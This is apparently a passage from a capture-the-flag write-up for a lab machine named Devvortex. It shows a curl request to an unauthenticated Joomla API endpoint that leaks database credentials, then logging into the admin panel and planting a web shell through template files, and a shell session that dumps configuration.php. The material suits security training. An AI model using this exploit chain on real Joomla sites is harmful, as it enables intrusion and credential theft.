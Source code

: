 ```sh
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
```json
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}   
```

### Foothold
1. Inspecting the JSON file we get one user and password: **lewis/P4ntherg0t1n5r3c0n##**
2. Use  the admin interface to login http://dev.devvortex.htb/administrator/index.php
3. Modify the template files and add a new file to insert a web-shell (use: https://github.com/flozz/p0wny-shell/blob/master/shell.php )
4. Check data in site structure - NOT USEFULL!
```sh
www-data@devvortex:…/www/dev.devvortex.htb# cat configuration.php
<?php
class JConfig {
	public $offline = false;
	public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
	public $display_offline_message = 1;
	public $offline_image = '';
	public $sitename = 'Development';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = 20;
	public $access = 1;
	public $debug = false;
	public $debug_lang = false;
	public $debug_lang_const = true;
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';
	public $db = 'joomla';
	public $dbprefix = 'sd4fg_';
	public $dbencryption = 0;
	public $dbsslverifyservercert = false;
	public $dbsslkey = '';
	public $dbsslcert = '';
	public $dbsslca = '';
	public $dbsslcipher = '';
	public $force_ssl = 0;
	public $live_site = '';
```
